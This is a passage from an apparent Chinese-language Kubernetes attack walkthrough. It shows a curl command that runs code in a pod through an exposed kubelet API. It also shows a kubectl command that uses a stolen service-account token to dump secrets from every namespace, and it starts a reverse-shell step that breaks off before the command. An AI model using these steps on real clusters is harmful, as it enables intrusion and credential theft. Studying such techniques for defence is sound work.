 ```bash
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=netstat -ntlp"
```

[![](assets/1701826061-b950bcf34fc57e7f48431dd00b423cb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171112-71be1410-7316-1.png)  
如果提示 Error from server (Forbidden): secrets is forbidden: User“" cannot list resource "secrets" in API 则说明权限不够

```bash
kubectl --insecure-skip-tls-verify=true --server="https://192.168.17.144:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJmbGFubmVsLXRva2VuLWhwbGJ0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImZsYW5uZWwiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIwMmJmZmUzZi0wNGE5LTQ2MTItYjRjYy1mYjNkNTdiNjZiZDkiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Zmxhbm5lbCJ9.oGnRE55P1Dv9W4-Gs8UCp5M1_vdL2flZ0WYJtr8HTMgb2Si6wb-N_ltS1HRi_Q9VHsS_CsjHw3ZqA-jQvbz-RENNLDEL20nUt9J51IyqeGPC3sKAd3fVOZmViIVrYsQSewvPHwPq7qvFnIj1aR-pFYrB47iohej2XvS4aTNZMdpxhL0jCBa3o5SFZg1oNR1rzJd1hhSaCNAbQ7_JMdTuCy4aU0zykVd0GoUF9gXRD7Avx9Y25QGCBTdPgL11fzjcGiG93KtfE4QASiLemnxDF1TPeob9MERFbT6mq-CQ7243U6HjF6Lx-1NfLk52qaXp3hbpGySNudUz_i_Q-KWIgw" get secrets --all-namespaces -o jsonv
```

[![](assets/1701826061-4906b693618f5db8858d0efae120440f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171137-806ab950-7316-1.png)  
Step 6：获取 node 里 pod 的 shell  
攻击者可以本地搭建 web 服务，通过在 node 中的 pod 里执行反弹语句来获得 node 的 shell，假定这里的 192.168.17.161:80 是攻击者 web 服务，之后写入以下反弹 shell 指令，之后启动一个简易的 HTTP 服务：
